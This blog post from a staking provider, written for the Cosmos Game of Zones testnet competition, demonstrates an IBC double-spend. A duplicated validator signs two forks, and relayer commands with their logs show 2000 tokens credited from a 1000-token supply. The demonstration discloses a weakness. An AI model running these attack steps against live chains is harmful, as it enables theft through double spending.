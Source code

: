 ```yaml
---
title: "Cosmos' Game of Zones Phase 3: Double Spend via a Double Sign"
description: "For Game of Zones Phase 3 we show how malicious validators can double spend via IBC"
date: 2020-06-05
thumbnail: 'https://i.imgur.com/RrXTPuo.png'
heroImage: 'https://i.imgur.com/RrXTPuo.png'
layout: Post
category:
  - cosmos
authors:
  - vshvsh
company:
 - p2p

---
```

# Cosmos' Game of Zones Phase 3: Double Spend via a Double Sign

We'll show how malicious validators (or validator keys thieves) can double-spend via IBC transfers using vanilla Tendermint, cosmos-sdk and relayer software.

For an experiment we have two chains: `p2p-org-3` and `responsible-3`. On p2p-org-3 there are 1000, no more and no less, of very valuable tokens with `scarce` denom. Using our trick we can make `responsible-3` accept a total sum of `2000scarce` via a channel.

## Double spend via a double sign step by step

To double spend we: 

1. Open a channel from p2p-org-3 to responsible-3
2. Stop a single validator of p2p-org-3, replicated it in two copies (let's call them `p2p-org-3.1` and `p2p-org-3.2`, though they still have an original chain-id of `p2p-org-3`) and start again in two different exemplars.

```
p2p-org-3.2$ rly q bal p2p-org-3
100000000000ptp,1000scarce
p2p-org-3.2$ rly q bal responsible-3
100000000000root,996000rsp,10transfer/hvigvvmjhcqwerty/ptp
```

3. Send 1000 scarce from `p2p-org-3.1`to `responsible-3`.
```
p2p-org-3.1$ rly tx transfer p2p-org-3 responsible-3 1000scarce true $(rly ch addr responsible-3)
I[2020-06-04|23:36:45.775] ✔ [p2p-org-3]@{68672} - msg(0:transfer) hash(13628DFA68099121C323DB7C2369489E1AFB71C2737B3D92B1BACAF5A9CFBB01)
I[2020-06-04|23:36:56.725] ✔ [responsible-3]@{68908} - msg(0:update_client,1:ics04/opaque) hash(50F3730A339AE60A1FDB4FADF484EA8FDC870E9E46C8362BEE328D7D324FDDE8)
p2p-org-3.1$ rly q bal p2p-org-3
99999999500ptp
p2p-org-3.1$ rly q bal responsible-3
100000000000root,995500rsp,10transfer/hvigvvmjhcqwerty/ptp,1000transfer/hvigvvmjhcqwerty/scarce
```

4. Switch to `p2p-org-3.2`'s terminal - there we still have `1000scarce`

```
p2p-org-3.2$ rly q bal p2p-org-3
100000000000ptp,1000scarce
p2p-org-3.2$ rly q bal responsible-3
100000000000root,995500rsp,10transfer/hvigvvmjhcqwerty/ptp,1000transfer/hvigvvmjhcqwerty/scarce
```


5. Send a bogus transfer (`100ptp`) from `p2p-org-3.2` to `responsible-3` - it fails on `responsible-3` but we bump `p2p-org-3.2`'s packet count by one to be able to send further transfers succesfully.

```
p2p-org-3.2$ rly tx transfer p2p-org-3 responsible-3 100ptp true $(rly ch addr responsible-3)
I[2020-06-04|23:39:07.369] ✔ [p2p-org-3]@{68700} - msg(0:transfer) hash(EB8CAE3CDE96FF9073B54B5E6F70C43B83DA13A30E06D833AA107CEB94EE6279)
I[2020-06-04|23:39:14.274] ✘ [responsible-3]@{0} - msg(0:update_client,1:ics04/opaque) err(client:15:couldn't verify counterparty packet commitment: key mismatch on operation #0: expected commitments/ports/transfer/channels/hvigvvmjhcqwerty/packets/3 but got commitments/ports/transfer/channels/hvigvvmjhcqwerty/packets/2: packet commitment verification failed)
```

6. Succesfully send 1000 scarce from `p2p-org-3.2`to `responsible-3`.

```
p2p-org-3.2$ rly tx transfer p2p-org-3 responsible-3 1000scarce true $(rly ch addr responsible-3)
I[2020-06-04|23:40:02.589] ✔ [p2p-org-3]@{68711} - msg(0:transfer) hash(83DFA4FB75D22220ECD94F134D8A8AE5BC0D0075D2DA6021B8DA6C4688E28787)
I[2020-06-04|23:40:12.237] ✔ [responsible-3]@{68947} - msg(0:update_client,1:ics04/opaque) hash(DD11048F41B6D0955EAC84D311DEF5DAD9A3F446398A59293C82A62D84F6B506)
p2p-org-3.2$ rly q bal p2p-org-3
99999998900ptp
gaia@ibc3-p2p-validator-2:/home/deploy$ rly q bal responsible-3
100000000000root,995000rsp,10transfer/hvigvvmjhcqwerty/ptp,2000transfer/hvigvvmjhcqwerty/scarce
```

We think that if there's ever a real attack with stolen keys or malicious validators involved, it'll be carried out with a combination of running a fork + using modified software that can issue arbitrary IBC packets (like our own RootChain).

-----
*The best way to support our contribution is to [stake ATOM with P2P Validador](https://p2p.org/cosmos?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post).*

---

[P2P Validator](https://p2p.org/?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post) is a world-leading non-custodial staking provider securing more than $40 million by over 1000 delegators/nominators across 15+ top-notch networks. We've been validating in Cosmos Hub since the first day of mainnet. P2P Validator provides comprehensive due-diligence and invested its own funds in ATOM in 2017 intending to support Cosmos network in the long term.

**Web:**[ https://p2p.org](https://p2p.org/?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post)

**Stake ATOM with us:** [p2p.org/cosmos](https://p2p.org/cosmos?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post)

**Twitter:**[ @p2pvalidator](https://twitter.com/p2pvalidator)

**Telegram:** [https://t.me/P2Pstaking](https://t.me/P2Pstaking)
